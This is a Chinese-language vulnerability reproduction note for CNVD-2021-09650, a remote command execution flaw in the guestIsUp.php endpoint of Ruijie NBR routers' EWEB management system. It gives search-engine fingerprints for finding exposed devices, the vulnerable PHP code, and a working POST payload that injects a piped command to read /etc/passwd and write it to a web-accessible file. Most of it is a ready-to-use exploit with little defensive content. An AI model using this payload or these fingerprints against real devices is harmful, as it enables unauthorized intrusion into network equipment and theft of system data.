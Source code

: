 # 锐捷 NBR 路由器 guestIsUp.php 远程命令执行漏洞 CNVD-2021-09650

## 漏洞描述

锐捷NBR路由器 EWEB网管系统部分接口存在命令注入，导致远程命令执行获取权限

## 漏洞影响

<a-checkbox checked>锐捷NBR路由器 EWEB网管系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="锐捷网络-EWEB网管系统"</a-checkbox></br>

<a-checkbox checked>icon_hash="-692947551"</a-checkbox></br>

## 漏洞复现



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ruijie-6.png)



出现漏洞的文件在 `/guest_auth/guestIsUp.php`



```php
<?php
    //查询用户是否上线了
    $userip = @$_POST['ip'];
    $usermac = @$_POST['mac'];
    
    if (!$userip || !$usermac) {
        exit;
    }
    /* 判断该用户是否已经放行 */
    $cmd = '/sbin/app_auth_hook.elf -f ' . $userip;
    $res = exec($cmd, $out, $status);
    /* 如果已经上线成功 */
    if (strstr($out[0], "status:1")) {
        echo 'true';
    }
?>
```



这里看到通过命令拼接的方式构造命令执行，



```shell
POST /guest_auth/guestIsUp.php
mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```



然后访问页面 `/guest_auth/test.txt` 就可以看到命令执行的结果



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ruijie-5.png)



## 